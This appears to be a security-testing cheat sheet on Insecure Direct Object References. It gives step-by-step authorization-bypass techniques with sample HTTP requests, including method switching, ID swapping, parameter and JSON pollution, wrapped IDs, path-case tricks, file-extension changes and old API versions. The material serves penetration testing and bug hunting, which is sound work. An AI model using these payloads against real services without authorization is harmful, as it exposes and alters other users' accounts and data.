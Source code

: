 # Insecure Direct Object References

## Check List



## Cheat Sheet

### Methodology

{% stepper %}
{% step %}
Create two accounts if possible or else enumerate users first.
{% endstep %}

{% step %}
Check if the endpoint is private or public and does it contains any kind of id param.


{% endstep %}

{% step %}
Try changing the param value to some other user and see if does anything to their account
{% endstep %}

{% step %}
change HTTP method like this

<pre class="language-http"><code class="lang-http"><strong>GET /users/delete/victim_id -> 403
</strong>POST /users/delete/victim_id -> 200
</code></pre>
{% endstep %}

{% step %}
Try replacing parameter names instead of this :&#x20;

```http
GET /api/albums?album_id= <album id>
```
{% endstep %}

{% step %}
Try This:

{% hint style="info" %}
Tip: There is a Burp extension called Paramalyzer which\
will help with this by remembering all the parameters you have passed to a host.
{% endhint %}

```http
GET /api/albums?account_id= <account id>
```
{% endstep %}

{% step %}
Path Traversal IN users Path

if request like this :&#x20;

```http
POST /users/delete/victim_id -> 403
```
{% endstep %}

{% step %}
change request to this&#x20;

```http
POST /users/delete/my_id/..victim_id -> 200
```
{% endstep %}

{% step %}
change request content-type

```http
Content-Type: application/xml
Content-Type: application/json
```
{% endstep %}

{% step %}
swap non-numeric with numeric id

```http
GET /file?id=90djbkdbkdbd29dd
GET /file?id=302
```
{% endstep %}

{% step %}
Missing Function Level Acess Control and changes Charachter path

```
GET /admin/profile -> 401
GET /Admin/profile -> 200
GET /ADMIN/profile -> 200
```
{% endstep %}

{% step %}
send wildcard instead of an id

```http
GET /api/users/user_id 
changes to this
GET /api/users/*
```
{% endstep %}

{% step %}
Never ignore encoded/hashed ID for hashed ID ,create multiple accounts and understand the\
pattern application users to allot an iD&#x20;
{% endstep %}

{% step %}
Bypass object level authorization Add parameter onto the endpoit if not present by defualt

```
GET /api_v1/messages -> 200
GET /api_v1/messages?user_id=victim_uuid -> 200
```
{% endstep %}

{% step %}
HTTP Parameter POllution Give mult value for same parameter

```http
GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```
{% endstep %}

{% step %}
change file type

```http
GET /user_data/2341 -> 401
GET /user_data/2341.json -> 200
GET /user_data/2341.xml -> 200
GET /user_data/2341.config -> 200
GET /user_data/2341.txt -> 200
```
{% endstep %}

{% step %}
json parameter pollution

```json
{"userid":1234,"userid":2542}
```
{% endstep %}

{% step %}
Wrap the ID with an array in the body

```json
{"userid":123} -> 401
{"userid":[123]} -> 200
```
{% endstep %}

{% step %}
c wrap the id with a json objec

```json
{"userid":123} -> 401
{"userid":{"userid":123}} -> 200
```
{% endstep %}

{% step %}
Test an outdata API version

```http
GET /v3/users_data/1234 -> 401
GET /v1/users_data/1234 -> 200
```
{% endstep %}
{% endstepper %}

